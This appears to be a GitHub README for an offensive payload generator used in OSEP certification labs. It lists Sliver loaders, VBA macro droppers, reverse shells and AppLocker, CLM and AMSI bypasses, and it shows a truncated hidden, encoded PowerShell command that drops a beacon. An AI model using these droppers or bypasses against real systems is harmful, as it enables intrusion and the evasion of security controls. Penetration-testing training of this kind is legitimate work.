 # OSEP Payload Generation
Glorified YAML parser for payload definitions to generate payloads used throughout OSEP Challenge labs.
This tool was mainly designed to let me compile Sliver loaders and generate known-good macro VBS quickly. It takes in a yaml payload definition and implements Jinja2 templating in order to render variables within the templates, theres also a few helper functions exposed to Jinja to assist with this.
The goal was to automate as much annoying "manual labor" as possible while still printing the commands used etc.

It's pretty jank but hey it works :)

## Usag
```bash
python3 generate.py -h                                
usage: generate.py [-h] [-l LHOST] [-p PAYLOAD] [-L] [-v]

options:
  -h, --help            show this help message and exit
  -l, --lhost LHOST     The interface or IP to have payloads connect back to (Default: tun0)
  -p, --payload PAYLOAD
                        Payload to generate, accepts comma seperated payloads (Default: loader-compile)
  -L, --list            List all the possible payloads
  -v, --verbose         Verbose messages
```

By default we have a few payloads to use, feel free to add some :D

```bash
python3 generate.py -L
[*] Available Payloads:
Name                                               Description
------------------------------------------------------------------------------------------------------------------------------------------------------
apache-config                                      Apache2 Configuration for Sliver staging via HTTP on default kali
jsp-dropper                                        JSP Dropper - Executes powershell to dropand launch
ligolo                                             Convert the ligolo agent into shellcode with required arguments to connect back
loader-compile-apache-hollow                       Compiles the configured .net loader with apache2 staging (x64) via process hollowing
loader-compile-sqlclr                              Compiles the configured .net loader with apache2 staging (x64) for SQL CLR reflection, spawns via process hollowing
macro-clm-reflection                               VBA Macro for dropping a CLM bypass and spawning a reflective beacon (Applocker & Installutil Bypass)
macro-hta-vba-clm-reflection                       VBA Macro for executing mshta, dropping a CLM bypass and spawning a reflective beacon (Applocker & Installutil Bypass) (No Powershell)
macro-hta-vba-powershell-clm-reflection            VBA Macro for executing mshta, dropping a CLM bypass and spawning a reflective beacon (Applocker & Installutil Bypass)
macro-hta-vba-powershell-dropper                   VBA Macro for executing mshta and dropping a beacon (Applocker Bypass)
macro-hta-vba-powershell-reflection                VBA Macro for executing mshta and reflecting a beacon (Applocker Bypass) (AMSI Bypass)
macro-hta-vba-powershell                           VBA Macro & reverse shell for basic Powershell reverse shells via HTA
macro-http-request                                 VBA Macro for a simple HTTP request
macro-powershell-clm-reflection                    VBA Macro for Powershell dropping a CLM bypass and spawning a reflective beacon (Applocker & Installutil Bypass) (AMSI Bypass)
macro-powershell-dropper                           VBA Macro for Powershell dropping beacons
macro-powershell                                   VBA Macro & reverse shell for basic Powershell reverse shells
powershell-dropper                                 Powershell command for dropping beacons
powershell-enum-clm                                Powershell command for enumerating CLM
powershell-reflection                              Powershell command for reflective loading
```

You can generate payloads like
```bash
python3 generate.py -p powershell-dropper
[*][PAYLOAD] powershell-dropper - Powershell command for dropping beacons
---------------------------- Print
Powershell command for dropping a beacon and executing
powershell -ep bypass -Sta -Nop -Window Hidden -e aQB3AHIAIAAtA...
```

I found a lot of the macros to be useless except for `macro-powershell-dropper` and `macro-powershell-clm-reflection` but I guess its better to be prepared?
Most of them will generate alerts halting free loot.

## Installation
On kali, it **should** just work?
but if not venv to the rescue
```bash
python3 -m venv ./venv/
. ./venv/bin/activate
pip install -r requirements.txt
```
For compiling .NET framework on linux, [Mono mcs](https://www.mono-project.com/) is used.
```bash
sudo apt install mono-complete
```
For loading [ligolo-ng](https://github.com/nicocha30/ligolo-ng) TheWover's [Donut](https://github.com/TheWover/donut) is used.

## Payload definition
Theory behind the payloads is you have control over the variables you can put into templates or utilise some of the helper functions to generate dynamic stuff, Say you want a xor key to encrypt a `msfvenom` bin you can specify it to generate random keys. Note that this is procedural so treat it as FIFO as its line by line.
There are 3 main stages to generation, the first being setup commands which execute before anything else (helpful for cleanup of old scripts / executables). The second is printing commands which can be useful for copy and pasting into reports to say what you executed and the third being the generation itself where the final commands are executed.

Initially I made a `test.yml` payload but thought i'd just dump it here checkout `/payloads/` anyways.
```yaml
# Required keys
# commands || print
# commands && print
description: "Testing payload definitions"
# Variable definitions for jinja2 templating in the commands
variables:
  port: 8080
  outputfile: "/tmp/xxxx"
  encodeme: "test"
  nolinebreaks: >-
    there
    shouldnt
    be
    line
    breaks
  withlinebreaks: |-
    linebreaks
    please
    work
# Templates
templates:
  test:
    variables:
      xorkey: "{{ Helpers.random_key() }}"
    template: |-
      multiline
      templating
      {{LHOST}}
      {{xorkey}}
# To Print
print:
- "powershell -ep bypass {{ Encoder.base64(encodeme,Encoder.utf16le) }}"
- "ip address: {{ LHOST }}"
- |-
  cat << EOF > test
  {{Templates.get('test')}}
  EOF
# Commands to be executed prior to rendering templates / actual commands etc
setupCommands:
- "echo nice"
# Commands to execute
commands:
- "echo abcd>test"
```

## Shoutouts
Loader* - [https://github.com/Logan-Elliott/HollowGhost](https://github.com/Logan-Elliott/HollowGhost)
Macro AMSI Bypass via Patch - [https://github.com/hackinaggie/OSEP-Tools-v2/blob/main/Macros/WordMacroRunner.vbs](https://github.com/hackinaggie/OSEP-Tools-v2/blob/main/Macros/WordMacroRunner.vbs)

